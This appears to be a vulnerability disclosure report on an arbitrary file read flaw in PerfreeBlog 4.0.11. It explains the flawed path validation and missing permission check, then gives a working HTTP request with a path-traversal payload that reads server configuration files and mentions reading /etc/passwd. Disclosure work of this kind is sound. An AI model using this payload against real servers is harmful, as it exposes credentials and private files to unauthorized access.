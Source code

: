 # Arbitrary File Read Vulnerability in PerfreeBlog System

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file read vulnerability, which allows reading any files on the server.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
In the interface called to obtain the content of theme files
![](./img/3.png)

It is found that it uses the `validThemeFilePath` function to verify the legitimacy of the path
![](./img/1.png)

When entering the `validThemeFilePath` function, it is found that the verification conditions are:
1. The path must exist and not be empty.
2. The incoming `path` must contain the `themePath`.

Therefore, path traversal can be achieved using `../`.
![](./img/2.png)

Moreover, this vulnerable interface has an unauthorized access issue. It is found that it does not use `hasPermission` for permission verification, so registered users can be used to read any files on the server.
![](./img/8.png)


## Vulnerability Reproduction
It can be equivalent to an unauthorized file read vulnerability.

First, use the `Authorization` of a newly registered ordinary user for operation, which is equivalent to an unauthorized operation.
![](./img/9.png)


Obtaining the absolute path:
Access the following interface to obtain the absolute path. The principle is that the downloaded file does not exist.
http://127.0.0.1:8086/api/attach/file/1/get/22222
![](./img/10.png)

Modify `path` and `themePath` to achieve arbitrary file reading.

The interface is:
```
http://127.0.0.1:8086/api/auth/theme/getThemeFileContent
```

The `path` only needs to contain `themePath`.

Data packet:
```
POST /api/auth/theme/getThemeFileContent HTTP/1.1
Host: 127.0.0.1:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0MTIzIiwiaXNzIjoic2VjdXJpdHkiLCJpYXQiOjE3NTU1MTQ0MzksImF1ZCI6InNlY3VyaXR5LWFsbCIsImV4cCI6MTc1NTUyMTYzOX0.KYmf_1EgVHrVoEy_N8tWPXH9SyNtEVHHvcjCLP3Oocg
Content-Length: 202
Origin: http://127.0.0.1:8086
Connection: keep-alive
Referer: http://127.0.0.1:8086/admin/theme/edit/default
Cookie: cms.locale=zh; PUBLICCMS_ANALYTICS_ID=b949b56a-32b4-4c16-9017-6619c6601ec5; PUBLICCMS_ADMIN=1_2a8f2932-74c5-40b9-ac72-01ef30167826; JSESSIONID=9DEEB713CA3E50909F7E86A3377C4366
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

{"themePath":"default\\..\\..\\..\\..\\","path":"F:\\test\\java1\\PerfreeBlog-main\\resources\\static\\themes\\default\\..\\..\\..\\..\\perfree-server\\src\\main\\resources\\application-prod.yaml"}
```

`themePath` is set to:
```
default\\..\\..\\..\\..\\
```


Reading pom.xml:

The `path` is:
```
File path + resources\\static\\themes\\default\\..\\..\\..\\..\\pom.xml
```
![](./img/6.png)

Reading configuration files:

The `path` is:
```
File path + resources\\static\\themes\\default\\..\\..\\..\\..\\perfree-server\\src\\main\\resources\\application-prod.yaml
```
![](./img/7.png)

For Linux systems, files such as `/etc/passwd` can be read.


Location of the vulnerable interface in the menu - Theme Management
![](./img/11.png)
